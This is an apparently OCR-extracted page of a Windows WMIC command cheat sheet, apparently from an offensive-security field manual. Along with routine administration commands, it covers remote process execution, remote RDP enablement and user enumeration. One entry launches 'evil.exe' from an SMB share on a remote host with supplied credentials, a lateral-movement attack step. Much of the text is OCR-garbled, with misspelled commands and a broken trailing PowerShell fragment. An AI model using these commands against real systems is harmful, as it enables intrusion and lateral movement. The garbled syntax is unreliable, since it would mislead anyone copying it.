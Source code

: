       </td>
      <td style="text-align:left">Terminate process</td>
    </tr>
    <tr>
      <td style="text-align:left">wmic logicaldisk get description,name</td>
      <td style="text-align:left">View logical shares</td>
    </tr>
    <tr>
      <td style="text-align:left">wmic cpu get DataWidth /format:list</td>
      <td style="text-align:left">Display 32 I I 64 bit</td>
    </tr>
  </tbody>
</table>### WMIC \[alias\] \[where\] \[clause\]

```text
[alias] == process, share, startup, service, nicconfig, useraccount, etc. 
[where] ==where (name="cmd.exe"), where (parentprocessid!=[pid]"), etc. 
[clause] ==list [fulllbrief], get [attribl, attrib2], call [method], delete
```

### Execute file hosted over smb on remote system with specified credentials

```text
wmic /node: targetiP /user:domain\user /password:password process call create "\ \ smbiP \share\evil.exe" 
```

### Uninstall software

```text
wmic product get name /value # Get software names 
wmic product where name="XXX" call uninstall /nointeractive 
```

### Remotely determine logged in user

```text
wmic /node:remotecomputer computersystern get username 
```

### Remotely process listing every second

```text
wmic /node:machinename process list brief /every:l 
```

### Remotely start RDP

```text
wmic /node:"machinename 4" path Win32_TerminalServiceSetting where 
AllowTSConnections=''O'' call SetAllowTSConnections ''1''
```

### List number of times user has logged on


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"